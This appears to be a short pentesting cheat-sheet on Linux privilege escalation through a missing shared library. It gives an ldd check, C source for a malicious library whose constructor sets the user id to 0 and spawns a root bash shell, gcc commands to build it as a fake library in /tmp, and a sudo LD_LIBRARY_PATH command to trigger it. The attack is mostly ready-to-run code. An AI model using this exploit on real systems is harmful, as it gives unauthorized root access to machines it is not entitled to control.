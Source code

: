 - - -
Sometimes The programs is owned by privileged users but and we have permissions to run them but sometimes some libraries were missing...We can abuse this error or misconfuguration 
to escalate our privileges !! 

Great Link : [here](https://blog.pentesteracademy.com/abusing-missing-library-for-privilege-escalation-3-minute-read-296dcf81bec2)

## Investigation : 

Run **ldd** command against the Suspected program file to see which shared libraries are used by the program : 

```sh
ldd /Full/Path/To/Program
```

Then Just create this file : 

```c 
#include <stdio.h>  
#include <stdlib.h>  
  
static void hijack() __attribute__((constructor));  
  
void hijack() {  
	unsetenv("LD_LIBRARY_PATH");  
	setresuid(0,0,0);  
	system("/bin/bash -p");  
}


/* // Or Use this :- 
#include<stdio.h>  
#include<stdlib.h>  
#include<unistd.h>int welcome(){  
setuid(0);  
setgid(0);  
system(“/bin/bash”);  
}
*/


```

Select any of the Library and replace it with the under file below : 

```sh
gcc -o /tmp/linux-vdso.so.1 -shared -fPIC <path to your above.c file>
```

Now run it : 

```sh
sudo LD_LIBRARY_PATH=/tmp apache2
```

- - -
